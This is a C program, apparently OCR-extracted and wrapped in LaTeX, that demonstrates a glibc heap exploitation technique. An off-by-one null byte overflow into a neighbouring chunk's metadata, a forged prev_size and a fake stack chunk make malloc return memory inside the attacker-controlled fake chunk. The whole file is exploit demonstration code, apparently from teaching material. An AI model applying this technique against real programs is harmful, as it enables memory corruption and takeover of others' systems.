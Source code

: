 \begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    uint8_t *a, *b, *d;

    a = (uint8_t*) malloc(0x10);
    int real_a_size = malloc_usable_size(a);
    memset(a, 'A', real_a_size);
    fprintf(stderr, "We allocate 0x10 bytes for 'a': %p\n\n", a);

    size_t fake_chunk[6];
    fake_chunk[0] = 0x80;
    fake_chunk[1] = 0x80;
    fake_chunk[2] = (size_t) fake_chunk;
    fake_chunk[3] = (size_t) fake_chunk;
    fake_chunk[4] = (size_t) fake_chunk;
    fake_chunk[5] = (size_t) fake_chunk;
    fprintf(stderr, "Our fake chunk at %p looks like:\n", fake_chunk);
    fprintf(stderr, "prev_size: %#lx\n", fake_chunk[0]);
    fprintf(stderr, "size: %#lx\n", fake_chunk[1]);
    fprintf(stderr, "fwd: %#lx\n", fake_chunk[2]);
    fprintf(stderr, "bck: %#lx\n", fake_chunk[3]);
    fprintf(stderr, "fwd_nextsize: %#lx\n", fake_chunk[4]);
    fprintf(stderr, "bck_nextsize: %#lx\n\n", fake_chunk[5]);

    b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);
    uint64_t* b_size_ptr = (uint64_t*)(b - 0x8);
    fprintf(stderr, "We allocate 0xf8 bytes for 'b': %p\n", b);
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
    fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
    a[real_a_size] = 0; 
    fprintf(stderr, "b.size: %#lx\n\n", *b_size_ptr);

    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
    fprintf(stderr, "We write a fake prev_size to the last %lu bytes of a so that it will consolidate with our fake chunk\n", sizeof(size_t));
    fprintf(stderr, "Our fake prev_size will be %p - %p = %#lx\n\n", b-sizeof(size_t)*2, fake_chunk, fake_size);

    fake_chunk[1] = fake_size;
    fprintf(stderr, "Modify fake chunk's size to reflect b's new prev_size\n");

    fprintf(stderr, "Now we free b and this will consolidate with our fake chunk\n");
    free(b);
    fprintf(stderr, "Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    d = malloc(0x10);
    memset(d, 'A', 0x10);
    fprintf(stderr, "\nNow we can call malloc() and it will begin in our fake chunk: %p\n", d);
}
\end{verbatim}

